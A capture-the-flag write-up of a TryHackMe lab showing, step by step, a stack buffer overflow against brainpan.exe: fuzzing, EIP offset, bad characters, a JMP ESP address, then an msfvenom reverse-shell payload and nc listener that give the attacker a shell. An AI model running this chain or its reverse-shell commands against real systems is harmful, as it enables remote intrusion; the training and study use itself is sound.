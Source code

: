 # brainpan.exe - Buffer Overflow Prep - TryHackMe

Writeup for the **brainpan.exe** app available in the [Buffer Overflow Prep](https://tryhackme.com/room/bufferoverflowprep) room from [TryHackMe](https://tryhackme.com/).

Steps for exploiting the **brainpan.exe** application:
1. Know your app
2. Fuzz
3. Find EIP offset
4. Test for bad chars
5. Exploit!

## Set up

* Attacker: Kali Linux, IP 192.179.80.177
* Target: Windows 7 VM, IP 192.168.90.136
  * [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
  * [mona.py](https://github.com/corelan/mona)

## 1. Know your app

Interact with the app and take note of the expected input.
```
nc -nv 192.168.90.136
```

![1](imgs/brainpan-writeup1.png?raw=true)
...
![2](imgs/brainpan-writeup2.png?raw=true)


## 2. Fuzz

Fuzz the application to test for buffer overflow. You can use [SPIKE](https://resources.infosecinstitute.com/topic/intro-to-fuzzing/) (generic_send_tcp), a tool already available at most Kali Linux installs, or your own script.

In this case, I used a somewhat generic script I created for fuzzing TCP applications: [sock-stream-fuzz.py](https://github.com/isabellecda/cyber-scripts/tree/main/buffer-overflow). Please feel free to use it and/or contribute to it.

Run the application in Immunity Debugger and execute the fuzzer:
```
./sock-stream-fuzz.py --rhost=192.168.90.136 --rport=9999 -f --buffstep=200
```
![3](imgs/brainpan-writeup3.png?raw=true)

Application crashed with 600 bytes!

We can see in the debugger that the EIP registry was overwriten:
![4](imgs/brainpan-writeup4.png?raw=true)


Testing the application with a buffer head, we can see that we were also able to write to memory positions pointed by EDX and ESP. 
```
./ig-buffer-overflow.py -m test --rhost=192.168.90.136 --rport=9999 --buffsize=1000 --buffhead='HELLO '
```
![5](imgs/brainpan-writeup5.png?raw=true)


## 3. Find EIP offset

To find the EIP offset, send a cyclic pattern to the application (the value writen in EIP will be checked against the pattern and the offset will be found).

For this and the next steps I will be using a custom script I created: [ig-buffer-overflow.py](https://github.com/isabellecda/cyber-scripts/tree/main/buffer-overflow). Please feel free to use it and/or contribute to it.

Re-run the application in the debugger and send the cyclic string:
```
./ig-buffer-overflow.py -m cyclic --rhost=192.168.90.136 --rport=9999 --buffsize=600 --buffhead=''
```
![6](imgs/brainpan-writeup6.png?raw=true)


Check offset:
```
./ig-buffer-overflow.py -m checkoffset --value=35724134 --length=600
Offset for length 600: 524
```

## 4. Test for bad chars

Write bad chars to find out which chars we have to exclude from our exploit:
```
./ig-buffer-overflow.py -m write --rhost=192.168.90.136 --rport=9999 --buffsize=600 --buffhead='' --offset=524 --hexcontent=BBBBBBBB --before=badchar --exclude=00 --nopsb=2
```
![7](imgs/brainpan-writeup7.png?raw=true)

```
!mona config -set workingfolder c:\temp
!mona bytearray
!mona compare -f c:\temp\bytearray.bin -a 005FF80B
```
![8](imgs/brainpan-writeup8.png?raw=true)

## 5. Find JMP instruction
```
!mona jmp -n -r ESP
```

![9](imgs/brainpan-writeup9.png?raw=true)

JMP ESP address = 0x311712f3

Set breakpoint at 0x311712f3 and test it writing even more bytes to the application (the following command also adds some nops before and after write content):
```
./ig-buffer-overflow.py -m write --rhost=192.168.90.136 --rport=9999 --buffsize=1200 --buffhead='' --offset=524 --hexcontent=l311712f3 --after=BBBB --nopsa=4 --before=CCCC --nopsb=10
```
![10](imgs/brainpan-writeup10.png?raw=true)


## 6. Exploit!

Generate shellcode:
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=192.168.80.177 LPORT=443 -f hex EXITFUNC=thread -o reverse
```

Set up handler:
```
sudo rlwrap -a nc -lvnp 443
```

Exploit:
```
./ig-buffer-overflow.py -m write --rhost=192.168.90.136 --rport=9999 --buffsize=1200 --buffhead='' --offset=524 --hexcontent=l311712f3 --after=shellcode --nopsa=10 --shellcode=reverse
```

Got the shell!!
![11](imgs/brainpan-writeup11.png?raw=true)


THE END!

#walkthrough #writeup #brainpan
